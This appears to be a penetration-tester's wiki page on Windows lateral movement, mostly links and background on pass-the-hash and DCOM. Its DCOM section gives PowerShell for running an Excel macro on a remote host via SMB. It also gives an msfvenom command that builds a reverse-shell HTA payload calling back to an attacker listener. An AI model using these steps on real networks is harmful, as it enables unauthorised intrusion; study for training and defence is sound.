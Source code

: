 # Windows Network Lateral Movement
The articles [[Networks/Network-Theory/Network-Protocols/Network-Protocols]], [[Networks/Network-Protocols]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-CLI-cmd]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

The are many ways to navigate the network and move laterally through it, the most stealthier from an attacker perspective is to use live off the land and sue common Administrative Tools or by emulating regular user behaviour, but also SysAdmin behaviour - why would a local admin connect from machine that has no reason to connect to another.

This article will require some knowledge of **Integrity Tokens** [[Bypassing-Windows-User-Account-Control]] and [[Windows-User-Account-Control]] as the restrictions imposed by this system, some methods may fail due UAC enforcement. Also Domain and Local Administrators are different objects, but Domain Admins with Local Admin privileges will not be subject to the same checks as a Local Admin. For remote restrictions made by UAC documentation see [UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 

## Contents
[[AD-Lateral-Movement-Spawning-Remote-Processes]]



## Exploitation Hashes and Ticket passing for Lateral Movement

See indiviual articles:
[[Pass-The-Hash]]
[[Overpass-The-Hash]]
[[Pass-The-Ticket]]


## Distributed Component Object Model(DCOM)
[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and thier interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They ancient technologies that are present in the early days of Windows. One of many [[Networks/Network-Protocols]] used in AD it specifically interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

There are various Microsoft Office DCOM objects that allow for lateral movement.
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"

$RemotePath = "\\$IP\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The base64 encode [[MSFvenom-Payloads]] command to create HTA attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The LHOST can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with dccomexec.py

## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References
[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[Alternate PtH methods](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/0)
[Graeber BH Whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
[DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) 
[COM](https://en.wikipedia.org/wiki/Component_Object_Model)
[MS DCOM Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) 
[Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 